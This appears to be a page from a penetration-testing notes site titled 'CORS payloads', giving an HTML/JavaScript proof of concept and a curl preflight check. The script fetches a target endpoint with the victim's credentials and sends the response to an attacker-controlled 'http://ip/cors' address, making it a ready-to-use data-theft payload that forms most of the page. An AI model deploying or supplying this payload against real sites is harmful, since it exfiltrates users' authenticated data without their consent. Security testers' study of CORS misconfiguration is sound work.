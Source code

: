 ```yaml
---
title: CORS payloads
layout: default
parent: CORS/CSRF
has_children: false
nav_order: 2
---
```


1\. A normal CORS payload (if you want to test it locally make sure you started Apache `sudo systemctl restart apache2`, and click on shield icon in firefox to disable enhance protection):

```
<html>
<head>
<script>
var url = "https://domain/code";
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://ip/cors?' + encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}
get_code();
</script>
</head>
<body></body>
</html>
```


2\. To test CORS payload using curl:
```
curl -X "OPTIONS" -i -H "Origin: http://originvalue" -k https://testdomain
```